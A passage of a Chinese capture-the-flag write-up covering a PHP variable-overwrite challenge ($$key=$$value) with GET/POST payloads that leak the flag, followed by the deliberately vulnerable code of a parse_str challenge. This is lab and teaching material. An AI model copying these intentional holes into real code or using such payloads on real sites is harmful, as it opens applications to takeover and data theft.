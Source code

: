```php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){矛盾体
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
?> 
```

考察：变量覆盖

payload：

```
触发die($error)
GET:suces=flag
POST:error=suces
触发die($suces)
GET:suces=flag&flag=
此时$_POST['flag']为NULL，$flag也为NULL
```

## web107(parse_str)

```php
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");
if(isset($_POST['v1'])){
    $v1 = $_POST['v1'];
    $v3 = $_GET['v3'];
       parse_str($v1,$v2);
       if($v2['flag']==md5($v3)){
           echo $flag;
       }
}
?> 
```
